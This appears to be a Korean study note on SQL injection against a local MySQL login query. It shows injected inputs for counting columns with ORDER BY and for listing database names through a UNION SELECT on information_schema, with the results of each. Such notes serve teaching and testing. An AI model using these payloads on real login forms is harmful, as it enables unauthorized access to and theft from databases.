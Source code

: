 ### SQL Injection

```
입력: 1' ORDER BY 1#
```

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '1' ORDER BY 1# AND password = '${password}'

-- 결과 : 에러가 아니라 결과가 없는 것
Empty set (0.00 sec)
```

```
입력: 1' ORDER BY 4#
```

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '1' ORDER BY 4# AND password = '${password}'

-- 결과
ERROR 1054 (42S22): Unknown column '4' in 'order clause'
```

- 4 번째 컬럼은 없기 때문에 에러
    - 컬럼이 몇 개인지 유추 가능

## ✳️ ****데이터베이스 이름 찾기

```sql
SELECT schema_name, 1, 1 FROM information_schema.schemata;

+--------------------+---+---+
| SCHEMA_NAME        | 1 | 1 |
+--------------------+---+---+
| mysql              | 1 | 1 |
| information_schema | 1 | 1 |
| performance_schema | 1 | 1 |
| sys                | 1 | 1 |
| issue_tracker      | 1 | 1 |
| issue_tracker_test | 1 | 1 |
| sqlinjection       | 1 | 1 |
| stock_example      | 1 | 1 |
+--------------------+---+---+
```

```
입력: 1' UNION SELECT schema_name, 1, 1 FROM information_schema.schemata LIMIT 6,1#
```

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '1' 
UNION 
SELECT schema_name, 1, 1 
FROM information_schema.schemata 
LIMIT 6,1#' AND password = ''

+--------------+-------------+----------+
| username     | description | is_admin |
+--------------+-------------+----------+
| sqlinjection | 1           |        1 |
+--------------+-------------+----------+
```